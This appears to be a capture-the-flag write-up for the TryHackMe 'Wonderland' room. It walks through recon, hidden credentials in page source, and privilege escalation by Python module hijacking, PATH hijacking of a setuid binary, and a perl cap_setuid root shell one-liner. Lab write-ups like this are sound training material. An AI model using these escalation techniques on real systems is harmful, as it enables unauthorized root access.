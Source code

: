 ```yaml
---
title : Wonderland - Writeup
---
```


_**Jan 11, 2021**_

[Wonderland](https://tryhackme.com/room/wonderland) Writeup

## Recon :

```sh
bvr0n@kali:~/CTF/THM/Wonderland$ nmap -sC -sV 10.10.252.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 10:28 EST
Nmap scan report for 10.10.252.9
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

Goin to the web page gets us only a `jpeg` image, let's download it and see what can we do with it :

```sh
bvr0n@kali:~/CTF/THM/Wonderland$ wget http://10.10.252.9/img/white_rabbit_1.jpg
bvr0n@kali:~/CTF/THM/Wonderland$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
```
Turns out, there is a files hidden inside that says this :

```
follow the r a b b i t
```

I didn't understand it at first, but when i brute forced directories i got the idea :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ ffuf -c -u http://10.10.252.9/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

The files was pointing to a path in the browser :

```
http://10.10.252.9/r/a/b/b/i/t/
```

Once i checked the code source i found a hidden text, hidding alice's `SSH` creds :

```
alice:**********************************************
```

## Privilege Escalation :

After some enumeration, i found out that the `/root/` is accessible by everyone but read permission was not given, on the other hand execute permission was present, so we can get the `user.txt`

* #### Rabbit User :

in Alice home directory there is a script that basically import the random module.

So, we can create a file named random.py in our current working directory that executes `/bin/bash` This way the python file should be loaded instead of the "real" random module, and in turn give us a shell as the rabbit user.

#### `random.py` :

```python 
import os

os.system("/bin/bash")
```
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

* #### Hatter User :

In `/home/rabbit` we can see a setuid binary, after examining the file, we can see that `date` is getting executed without pecifying an absolute path :

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

We can abuse this by exporting our own `$PATH` and providing a fake `date` script that will give us a shell with the user :

```bash
rabbit@wonderland:/tmp$ cat date 
#!/bin/bash
/bin/bash
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ whoami
hatter
```
Inside his directory we can find his ssh credentials :

```
hatter@wonderland:/home/hatter$ cat password.txt 
****************************
```

* #### Root :

After some enumeration, linpeas showed something intresting :

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Looks like `perl` have this capability `cap_setuid+ep` and that we can abuse, [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) :

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami; id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```
Hope you like it.
